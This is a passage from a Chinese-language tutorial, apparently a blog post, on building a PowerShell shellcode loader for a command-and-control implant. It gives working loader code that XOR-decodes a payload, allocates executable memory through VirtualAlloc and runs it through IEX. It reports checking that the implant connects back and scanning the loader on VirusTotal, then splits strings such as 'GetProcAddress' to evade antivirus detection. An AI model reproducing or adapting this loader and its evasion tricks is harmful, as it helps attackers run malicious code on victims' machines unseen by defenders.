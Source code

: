```text

	return $var_type_builder.CreateType()
}

[Byte[]]$var_code = [Byte[]](这里放刚刚转码后的FromBase65String)

for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 35
}

$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
$var_runme.Invoke([IntPtr]::Zero)
'@

If ([IntPtr]::size -eq 8) {
	start-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job
}
else {
	IEX $DoIt
}
```

运行下，测试是否能上线，可以看到是没问题的。

![](https://image.3001.net/images/20200911/1599793860.png!small)

接下来就是上VT查杀看看。https://www.virustotal.com

![](https://image.3001.net/images/20200911/1599793896.png!small)

这样还不能够，继续改关键字。

```text
Set-StrictMode -Version 2

$DoIt = @'
function func_b {
	Param ($amodule, $aprocedure)		
	$aunsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.Uns'+'afeN'+'ativeMethods')
	$agpa = $aunsafe_native_methods.GetMethod('GetP'+'rocAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
	return $agpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($aunsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($amodule)))), $aprocedure))
}

function func_a {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $aparameters,
		[Parameter(Position = 1)] [Type] $areturn_type = [Void]
	)

	$atype_b = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('Reflect'+'edDel'+'egate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDeleg'+'ateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
```